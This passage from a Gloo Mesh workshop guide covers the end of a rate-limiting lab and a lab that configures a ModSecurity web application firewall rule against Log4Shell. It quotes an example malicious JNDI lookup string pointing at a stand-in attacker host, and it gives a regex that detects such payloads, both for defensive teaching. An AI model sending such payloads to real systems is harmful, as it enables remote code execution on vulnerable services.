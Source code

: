 ```bash
            else %}{{ body() }}{% endif %}'
        parseBodyBehavior: DontParse
EOF
```

Now if we refresh the page in the browser we should see a blue error page that says
```
Too many Requests!
Try again after a minute
```

## Lab 6 - Use the Web Application Firewall filter <a name="Lab-6"></a>
A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl --context ${CLUSTER1} apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```
